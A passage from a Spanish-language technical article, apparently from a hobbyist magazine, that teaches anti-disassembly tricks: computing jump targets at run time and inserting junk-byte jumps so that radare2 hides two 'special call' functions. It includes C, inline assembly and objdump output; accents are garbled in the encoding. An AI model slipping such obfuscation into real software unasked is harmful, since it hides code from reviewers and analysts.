
\includegraphics[width=\linewidth]{images/articulos/jump-ex06-radare2.eps}

La segunda cadena ha vuelto a aparecer. Maldita sea, radare es m�s listo
de lo que pens�bamos. Veamos en detalle el comentario junto a la nueva
l�nea que ha descubierto.

\begin{lstlisting}
|   0x0000118e  ~   00488d
                         add byte [rax - 0x73], cl
|   ; DATA XREF from sub.foo_1139 @ 0x1152(r)
+ 16: sub.Llamada_especial_2_118f ();
|   0x0000118f      488d058e0e..
                        lea rax, str.Llamada_especial_2
                        ; 0x2024 ; "Llamada especial 2"
\end{lstlisting}

Al parecer ha encontrado una referencia cruzada en la direcci�n
{\verb!0x1152!} y gracias a ello ha sido capaz de
averiguar que hay algo en esa direcci�n. La direcci�n en cuesti�n
contiene:

\begin{lstlisting}
0x0001152      488d053600..
               lea rax, [sub.Llamada_especial_2_118f]
               ; 0x118f ; "H\x8d\x05\x8e\x0e"
\end{lstlisting}

Es decir, es la l�nea en la que asignamos a la variable global
{\verb!f2!} la direcci�n de la etiqueta
{\verb!label\_foo2!}\ldots{}

\hypertarget{escondiendo-el-cuxf3digo-muxe1s}{%
\sectiontext{white}{black}{ESCONDIENDO EL C�DIGO
M�S}\label{escondiendo-el-cuxf3digo-muxe1s}}

Bueno, vamos a pon�rselo un poco m�s dif�cil a radare. En lugar de
almacenar las direcciones directamente en las variables globales,
hagamos algunas operaciones con ellas:

\begin{lstlisting}[language=C]
int foo (int a) {
  f1 = &&label_foo1 - 0x1234;
  f2 = &&label_foo2 + 0x4321;
  puts ("> foo inicio");
  f1 += 0x1234;
  f2 -= 0x4321;
  (...)
\end{lstlisting}

Y esto es lo que obtenemos:


\includegraphics[width=\linewidth]{images/articulos/jump-ex07-radare2.eps}


Genial, ya no hay referencia cruzada que valga. Sin embargo, a�n podemos
ver todo el c�digo si bien no es evidente cuales son los puntos de
acceso, ya que las direcciones se calculan en tiempo de ejecuci�n. Un
sencillo an�lisis din�mico las mostrar�, pero eso significa que ya hemos
forzado al investigador al siguiente nivel, el cual implica una cierta
preparaci�n.

\begin{entradilla}
{\em Calcular las direcciones de las funciones usando una operaci�n, dificulta la labor del desensamblador}
\end{entradilla}

A partir de este punto pod�is aplicar distintas t�cnicas de ofuscaci�n
para hacer m�s complicado averiguar que es lo que hace el programa. Por
mi parte voy a insertar una serie de saltos al final de la funci�n justo
antes del c�digo de las funciones especiales, para que parezca que el
c�digo real nunca se ejecuta\ldots{} si bien esto es algo muy sencillo
de ver cuando se hace un an�lisis din�mico.

Los cambios al c�digo son los siguientes:

\begin{lstlisting}[language=C]
 if (a) {
    __asm__ ("jmp . + 123");
    __asm__ (".asciz \"PRUEBA\"");
  label_foo1:
    puts ("Llamada especial 1");
    __asm__ ("ret");
    __asm__ ("jmp . + 123");
    __asm__ (".asciz \"PRUEBA\"");
  label_foo2:
    puts ("Llamada especial 2");
    __asm__ ("ret");
  }
\end{lstlisting}

Como pod�is ver, hemos cambiado {\verb!ROOR!} por
{\verb!PRUEBA!} que genera m�s opcodes inv�lidos.Ahora
solo tenemos que calcular los offsets de los
{\verb!jmps!} del c�digo de arriba y sustituir los
valores.

Para ello vamos a volcar la funci�n {\verb!foo!} con
{\verb!objdump!} tras compilar esta �ltima versi�n:

\end{multicols}

\begin{lstlisting}
occams@razor > objdump -d jump-ex08 | grep "<foo>:" -A 50
0000000000001139 <foo>:
    1139:   55                      push   %rbp
    113a:   48 89 e5                mov    %rsp,%rbp
    113d:   48 83 ec 10             sub    $0x10,%rsp
    1141:   89 7d fc                mov    %edi,-0x4(%rbp)
    1144:   48 8d 05 27 ee ff ff    lea    -0x11d9(%rip),%rax        # ffffffffffffff72 <_end+0xffffffffffffbf42>
    114b:   48 89 05 ce 2e 00 00    mov    %rax,0x2ece(%rip)        # 4020 <f1>
    1152:   48 8d 05 87 43 00 00    lea    0x4387(%rip),%rax        # 54e0 <_end+0x14b0>
    1159:   48 89 05 c8 2e 00 00    mov    %rax,0x2ec8(%rip)        # 4028 <f2>
    1160:   48 8d 05 9d 0e 00 00    lea    0xe9d(%rip),%rax        # 2004 <_IO_stdin_used+0x4>
    1167:   48 89 c7                mov    %rax,%rdi
    116a:   e8 c1 fe ff ff          call   1030 <puts@plt>
    116f:   48 8b 05 aa 2e 00 00    mov    0x2eaa(%rip),%rax        # 4020 <f1>
    1176:   48 05 34 12 00 00       add    $0x1234,%rax
    117c:   48 89 05 9d 2e 00 00    mov    %rax,0x2e9d(%rip)        # 4020 <f1>
    1183:   48 8b 05 9e 2e 00 00    mov    0x2e9e(%rip),%rax        # 4028 <f2>
    118a:   48 2d 21 43 00 00       sub    $0x4321,%rax
    1190:   48 89 05 91 2e 00 00    mov    %rax,0x2e91(%rip)        # 4028 <f2>
    1197:   83 7d fc 00             cmpl   $0x0,-0x4(%rbp)
    119b:   74 34                   je     11d1 <foo+0x98>
    119d:   eb 79                   jmp    1218 <main+0x30>
    119f:   50                      push   %rax
    11a0:   52                      push   %rdx
    11a1:   55                      push   %rbp
    11a2:   45                      rex.RB
    11a3:   42                      rex.X
    11a4:   41 00 48 8d             add    %cl,-0x73(%r8)
    11a8:   05 64 0e 00 00          add    $0xe64,%eax
    11ad:   48 89 c7                mov    %rax,%rdi
    11b0:   e8 7b fe ff ff          call   1030 <puts@plt>
    11b5:   c3                      ret
    11b6:   eb 79                   jmp    1231 <main+0x49>
    11b8:   50                      push   %rax
    11b9:   52                      push   %rdx
    11ba:   55                      push   %rbp
    11bb:   45                      rex.RB
    11bc:   42                      rex.X
    11bd:   41 00 48 8d             add    %cl,-0x73(%r8)
    11c1:   05 5e 0e 00 00          add    $0xe5e,%eax
    11c6:   48 89 c7                mov    %rax,%rdi
    11c9:   e8 62 fe ff ff          call   1030 <puts@plt>
    11ce:   c3                      ret
    11cf:   eb 01                   jmp    11d2 <foo+0x99>
    11d1:   90                      nop
    11d2:   48 8d 05 5e 0e 00 00    lea    0xe5e(%rip),%rax        # 2037 <_IO_stdin_used+0x37>
    11d9:   48 89 c7                mov    %rax,%rdi
    11dc:   e8 4f fe ff ff          call   1030 <puts@plt>
    11e1:   b8 00 00 00 00          mov    $0x0,%eax
    11e6:   c9                      leave
    11e7:   c3                      ret
\end{lstlisting}

\begin{multicols}{2}

Si miramos con atenci�n, el primer salto est� en
{\verb!0x119b!} y el siguiente salto est� en
{\verb!0x11b6!}. Queremos que parezcan puntos de
salida, as� que haremos que salten a {\verb!0x11e7!}.
Lo que significa que debemos usar los offsets:

\begin{entradilla}
{\em Si en lugar de instrucciones aleatorias inyectamos instrucciones con un prop�sito, podemos hacer que parezca que el programa hace algo distinto }
\end{entradilla}

\begin{lstlisting}
$ echo $((0x11e7-0x119d))
74
$ echo $((0x11e7-0x11b6))
49
\end{lstlisting}

Si actualizamos el c�digo y recompilamos, esto es lo que mostrar� ahora
radare.


\includegraphics[width=\linewidth]{images/articulos/jump-ex08-radare2.eps}


\hypertarget{otros-puntos-de-vista}{%
\sectiontext{white}{black}{OTROS PUNTOS DE VISTA}\label{otros-puntos-de-vista}}

En todo el art�culo hemos estado mirando al c�digo usando el comando
{\verb!pd!} de radare2. Este comando hace el
desensamblado de la zona de memoria que le indicamos, sin embargo,
radare2 ofrece formas m�s convenientes de ver al c�digo que son las que
la mayor�a de la gente usa. Una de ellas es utilizando el comando
{\verb!pdf!} el cual nos ofrece el desensamblado de una
zona de memoria, pero suponiendo que se trata de una funci�n. Esto es lo
que obtendr�amos:


\includegraphics[width=\linewidth]{images/articulos/jump-ex08-radare2-func.eps}


Como pod�is ver, todo el c�digo especial que hemos incluido no se
muestra, sin embargo, si prestamos atenci�n, ver�is dos puntos que
rompen las l�neas de los saltos, indic�ndonos que ah� hay algo que no se
est� mostrando\ldots{}

\begin{entradilla}
{\em Al utilizar comandos m�s avanzados como \texttt{pdf} es m�s dif�cil ver que algo est� mal} 
\end{entradilla}

La otra forma que la gente usa para ver al c�digo es el modo gr�fico,
popularizado por la herramienta IDA Pro y que nos permite, de un
vistazo, ver la estructura general del programa de forma gr�fica.
radare2 ofrece esta vista en modo texto, pero pod�is usar alguno de los
GUIs para interactuar con el para verlo en modo gr�fico. Para nuestro
ejemplo, esta vista mostrar�a lo siguiente:


